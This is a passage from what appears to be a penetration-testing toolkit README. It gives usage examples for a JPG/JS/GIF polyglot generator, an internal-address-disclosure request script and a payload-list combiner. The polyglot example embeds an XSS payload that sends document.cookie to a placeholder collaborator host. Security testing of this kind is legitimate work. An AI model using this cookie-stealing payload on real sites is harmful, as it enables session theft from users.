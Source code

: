 ### Usage example:
```
python3 pol_jpg_js_gif_gen.py jpg -H 250 -W 250 -p 'document.location.href="http://domain_collab?"+document.cookie;' -o a.jpg
```
```js
<script charset="ISO-8859-1" src="/upload/file"></script>
```

## :small_red_triangle_down: internal_addr_disclosure.py

> Send a raw 'GET / HTTP/1.0' request to a server and prints the response (handy for checking the Location for the internal IP leak).

### Usage example:
```bash
python3 internal_addr_disclosure.py -d afine.com -p 443 --ssl
python3 internal_addr_disclosure.py -d afine.com -p 80 -m POST -e /test -v 'HTTP/1.0'
python3 internal_addr_disclosure.py -d afine.com -p 80 -v 'HTTP/1.1'
python3 internal_addr_disclosure.py -d afine.com -p 80 -o internal_addr_disclosure_test_afine_com_80.log
```

## :small_red_triangle_down: combiner.py

> Combines each line of file_1 with each line of file_2.

### Usage example:
```bash
python combine.py --file_1 CRLF --file_2 OOB --out combined.txt
```
